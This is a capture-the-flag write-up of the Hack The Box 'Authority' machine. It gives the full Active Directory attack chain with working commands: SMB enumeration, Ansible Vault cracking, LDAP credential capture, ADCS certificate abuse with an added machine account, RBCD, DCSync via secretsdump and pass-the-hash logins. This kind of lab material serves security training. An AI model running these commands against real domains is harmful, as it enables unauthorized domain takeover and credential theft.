




# Hack The Box - Authority


Authority is a Windows Active Directory machine that starts with recon, SMB share enumeration, and a web portal that leaks credentials through a writable LDAP configuration. From there, the path continues through Ansible Vault decryption, PWM admin access, a cleartext LDAP credential capture, and finally ADCS abuse to become Domain Admin.  

## Reconnaissance

I started with an Nmap scan and found the usual AD ports along with HTTP on 80, WinRM on 5985, and a password portal on 8443. The host identified itself as `AUTHORITY`, with the domain `authority.htb` / `htb.corp` visible in the certificates and LDAP metadata.  

```bash
sudo nmap -sS -A -p- -o nmap 10.10.11.222
```

The scan also showed that the machine was likely a domain controller, which meant Active Directory enumeration would be important later.  

## Web and SMB



Port 80 was just the default IIS page, but the 8443 service redirected to `/pwm`, which exposed a self-service password management application. The configuration manager page leaked a valid username: `svc_pwm`.  



I checked SMB with that account and found that an empty password worked, which gave access to a share called `Development`. The share contained Ansible-related files and vault secrets.  

```bash
crackmapexec smb authority.htb -u 'svc_pwm' -p '' --shares
smbget -R smb://authority.htb/development -U authority.htb/svc_pwm
```

## Ansible Vault

Inside the Ansible files I found multiple vault-encrypted values, including LDAP and PWM credentials. I extracted the vault blobs, converted them with `ansible2john`, and cracked the vault password. The vault password was `!@#$%^&*`.  

Once I decrypted the vaults, I recovered these secrets:

- `ldap_admin: DevT3st@123`
- `pwm_admin: svc_pwm`
- `pwm_pwd: pWm_@dm!N_!23`

The `pwm_admin` credentials worked for logging into the PWM admin panel.  

## PWM LDAP Leak



After logging into PWM, I navigated to the configuration editor and found the LDAP connection settings. By changing the LDAP URL to my own host and triggering a test, the server connected back and sent credentials in cleartext.  



The captured LDAP service credentials were:

- `svc_ldap`
- `lDaP_1n_th3_cle4r!`

Those credentials worked for WinRM, which gave me a shell on the box.  

```bash
evil-winrm -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -i authority.htb
```

## ADCS Discovery

Since the machine was clearly AD-focused, I ran Certipy enumeration to look for vulnerable certificate templates and CA permissions. The results showed an ADCS setup with a vulnerable template that allowed enrollee-supplied subject data, which is the classic ESC1 pattern.  

At the same time, the CA permissions were interesting because they suggested a path involving elevated certificate control. That made it possible to impersonate another user through certificate abuse.  

## Computer Account Abuse

Low-privileged domain users can usually create up to 10 machine accounts by default, so I created one using the LDAP credentials. I then requested a certificate impersonating `Administrator@authority.htb` using the vulnerable template.  

```bash
impacket-addcomputer -computer-name 'deadbeef$' -computer-pass 'lDaP_1n_th3_cle4r!' -dc-host 10.10.11.222 -domain-netbios 'authority.htb' 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!'
certipy req -username 'deadbeef$@authority.htb' -password 'lDaP_1n_th3_cle4r!' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn Administrator@authority.htb -debug
```

After converting the certificate, I used it to configure resource-based constrained delegation on the new machine account. That allowed me to impersonate users on the domain controller.  

## Ticket and DCSync

With RBCD in place, I requested a service ticket for `administrator` against LDAP on the DC. I had to sync time first because Kerberos is strict about clock skew. After that, I had a valid ticket cache.  

```bash
sudo ntpdate 10.10.11.222
impacket-getST -spn ldap/authority.authority.htb -impersonate administrator -dc-ip 10.10.11.222 'authority.htb/DEADBEEF$:lDaP_1n_th3_cle4r!'
```

Using that ticket, I ran `secretsdump` and extracted the domain hashes, including the Administrator NT hash. That gave me the final credential needed to log in as Administrator.  

```bash
impacket-secretsdump 'authority.htb/administrator@authority.authority.htb' -k -no-pass -dc-ip 10.10.11.222 -target-ip 10.10.11.222
```

## Domain Admin

I used the Administrator hash with Evil-WinRM and obtained a shell as the domain administrator. From there, the root flag was available on the desktop.  

```bash
evil-winrm -i 10.10.11.222 -u Administrator -H de1afe0f24c54d8f8688ab8aa59cd587
```

## Attack Path

- Enumerate the host and identify HTTP, SMB, WinRM, and ADCS-related services.
- Use SMB access to find Ansible Vault files in the `Development` share.
- Crack the vault password and decrypt stored credentials.
- Log in to PWM and capture cleartext LDAP credentials by redirecting the LDAP connection.
- Use `svc_ldap` for WinRM access.
- Enumerate ADCS and find a vulnerable certificate template.
- Create a machine account, request a certificate as Administrator, and set up RBCD.
- Use Kerberos tickets to perform DCSync.
- Log in as Administrator with the dumped hash and read the root flag.
